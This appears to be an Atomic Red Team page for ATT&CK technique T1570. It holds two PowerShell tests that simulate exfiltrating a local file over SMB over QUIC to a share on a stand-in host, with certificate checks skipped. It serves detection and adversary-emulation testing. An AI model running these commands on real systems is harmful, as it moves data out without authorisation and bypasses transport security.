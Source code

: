 # T1570 - Lateral Tool Transfer
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1570)
<blockquote>

Adversaries may transfer tools or other files between systems in a compromised environment. Once brought into the victim environment (i.e., [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105)) files may then be copied from one system to another to stage adversary tools or other files over the course of an operation.

Adversaries may copy files between internal victim systems to support lateral movement using inherent file sharing protocols such as file sharing over [SMB/Windows Admin Shares](https://attack.mitre.org/techniques/T1021/002) to connected network shares or with authenticated connections via [Remote Desktop Protocol](https://attack.mitre.org/techniques/T1021/001).(Citation: Unit42 LockerGoga 2019)

Files can also be transferred using native or otherwise present tools on the victim system, such as scp, rsync, curl, sftp, and [ftp](https://attack.mitre.org/software/S0095). In some cases, adversaries may be able to leverage [Web Service](https://attack.mitre.org/techniques/T1102)s such as Dropbox or OneDrive to copy files from one machine to another via shared, automatically synced folders.(Citation: Dropbox Malware Sync)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)](#atomic-test-1---exfiltration-over-smb-over-quic-new-smbmapping)

- [Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)](#atomic-test-2---exfiltration-over-smb-over-quic-net-use)


<br/>

## Atomic Test #1 - Exfiltration Over SMB over QUIC (New-SmbMapping)
Simulates an attacker exfiltrating data over SMB over QUIC using the New-SmbMapping command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** d8d13303-159e-4f33-89f4-9f07812d016f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-SmbMapping -RemotePath '#{remote_path}' -TransportType QUIC -SkipCertificateCheck
copy '#{local_file}' 'Z:\'
```






<br/>
<br/>

## Atomic Test #2 - Exfiltration Over SMB over QUIC (NET USE)
Simulates an attacker exfiltrating data over SMB over QUIC using the NET USE command.
Prerequisites:
  - A file server running Windows Server 2022 Datacenter: Azure Edition
  - A Windows 11 computer
  - Windows Admin Center

**Supported Platforms:** Windows


**auto_generated_guid:** 183235ca-8e6c-422c-88c2-3aa28c4825d9





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| remote_path | The UNC path to the share on the file server | string | &#92;&#92;example.com&#92;sales|
| local_file | The local file to be transferred | path | C:&#92;path&#92;to&#92;file.txt|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
NET USE * '#{remote_path}' /TRANSPORT:QUIC /SKIPCERTCHECK
copy '#{local_file}' '*:\'
```






<br/>
